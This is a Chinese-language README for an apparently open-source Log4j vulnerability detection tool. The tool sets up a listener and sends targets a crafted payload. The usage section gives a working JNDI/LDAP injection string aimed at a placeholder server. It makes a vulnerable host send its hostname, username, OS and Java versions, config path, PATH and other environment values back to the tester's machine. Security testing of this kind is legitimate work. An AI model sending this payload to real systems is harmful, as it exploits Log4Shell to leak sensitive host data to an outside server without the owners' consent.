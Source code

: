 ## 简介

- 用于探测Log4j漏洞, 将它POC的威力最大化, POC验证成功后会立即收到目标机器的系统主机名、时间、版本号、用户名、环境变量以及Log4j路径、java版本号、中间件信息等信息.

## 灵感来源

- 由于不能第一时间立刻知道某应用系统整个组件调用链、数据传输链、系统调用链中是否存在Log4j漏洞，因此经常需要黑盒测试来fuzzing。可以利用存在漏洞的Log4j组件会向攻击者指定的dns服务端发起域名解析请求的特性判断漏洞的存在，但是内网不一定存在dns服务器，即使存在也不一定配置了dns服务器，即使配置了但是通过dnslog这类平台也无法知道是内网中的哪台机器存在漏洞，即使知道了也不确定是那台机器上的哪个web应用存在漏洞，用的是哪个版本的java环境以及哪个中间件。
- 根据自己以上种种痛点写了这个小工具，提高挖洞效率，顺便开源出来。

## 作用

- 监听端口, 等待猎物，被动式发现存在Log4j漏洞的机器.
- 最大化了POC的威力: 可以获取目前机器的系统时间、主机名、Log4j路径、系统版本号、java版本号、系统用户名、中间件信息（含物理路径）、环境变量等敏感信息.
- 功能超越了dnslog和ncat.
- 时刻监听同一端口, 可不限制地接收多个目标传输过来的漏洞信息.
- 收到漏洞信息后立即断开, 避免占用目标的程序线程和网络连接.
- 记录历史, 保存漏洞信息.

## 优点

- 代码开源, 安全可控.
- 不依赖第三方库.
- 跨平台.
- 解决了内网环境没有dns服务器、不通dnslog等问题.
- 解决了内网环境无法下载ncat的问题.
- 解决了ncat命令过于冗余的问题.
- 解决了ncat监听模式下需要频繁ctrl+c才能终止OOB连接的问题.
- 兼容Python2和Python3.
- 解决了fuzzing工程师不清楚fuzzing成功了哪台目标机器的问题.
- 解决了fuzzing工程师不清楚fuzzing成功了目标机器上的哪个web应用的问题.

## 用法

1. 找一台所有内网服务器都通的服务器，搭建```LogXj安全服务端```，命令如下：
```
python logxj.py
```

2. 以下是我构造的```LOGXJ POC```，需要先手动把里面的```LOGXJ_SERVER```替换为```LogXj安全服务端的IP```，然后把它发送给使用了log4j的目标：
```shell
${jndi:ldap://LOGXJ_SERVER:4444/\nFound Log4j vuln!\nDate\t:${date:yyyy-MM-dd HH:mm:ss}\nHostname:${hostName}\nConf dir:${log4j:configLocation:-}\nOs ver\t:${java:os}\nJava ver:${java:version}\nUser\t:${env:USER:-}${env:USERNAME:-}\nIsTomcat:${env:CATALINA_BASE:-False}\nPATH\t:${env:PATH:-}\n\nEnd}
```

3. 此时观察```LogXj安全服务端```的控制台：
- 若收到回显，则说明目标或数据传输链路中的某些系统存在log4j漏洞。
- 若没有回显，则说明可能暂无风险，也可能是和下面的```额外说明```有关。

## 额外说明

- 若dnslog的方式能发现log4j漏洞，但是用本项目的方式发现不到，则可能是因为```存在log4j漏洞的系统```与DNS服务器网络相通，且```存在log4j漏洞的系统```与```LogXj安全服务端```网络不通。
- 建议把```LogXj安全服务端```部署在一台所有内网服务器都通的服务器上。
